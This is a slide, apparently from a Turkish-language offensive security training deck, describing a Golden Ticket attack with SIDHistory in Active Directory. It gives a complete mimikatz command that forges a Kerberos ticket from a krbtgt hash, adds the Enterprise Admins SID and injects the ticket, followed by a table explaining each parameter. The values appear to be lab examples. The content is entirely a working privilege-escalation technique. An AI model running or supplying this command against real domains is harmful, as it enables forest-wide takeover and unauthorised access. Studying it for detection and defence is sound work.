

# TTP 0x18 – Golden Ticket w/ SIDHistory - Exploitation
# mimikatz ile Enterprise Admin Sidi kullanılarak Golden Ticket üretiliyor
.\mimikatz.exe "kerberos::golden /user:root123 /domain:INTERNAL.LOCAL /sid:S-1-5-21-1234564456-3701834485-3839312249 /krbtgt:3b4d99def89329ace111fb148acb629f /id:500 /sids:S-1-5-21-246663577-1172385535-561243890-519 /ptt" "exit"
| Parametre | Açıklama | Değer |
| --- | --- | --- |
| kerberos::golden | Golden Ticket modülü | -- |
| /user | Impersonate edilecek kullanıcı ismi | root123 |
| /domain | Kullanıcının bulunduğu domain adı | INTERNAL.LOCAL |
| /sid | Kullanıcının bulunduğu domain SID değeri | S-1-5-21-1234564456-3701834485-3839312249 |
| /krbtgt | Krbtgt NTHash değeri | 3b4d99def89329ace111fb148acb629f |
| /id | Impersonate edilecek kullanıcı RID değeri | 500 |
| /sids | SIDHistory’e eklenecek SID değeri (Enterprise Admins) | S-1-5-21-246663577-1172385535-561243890-519 |
| /ptt | Pass the Ticket modülü | -- |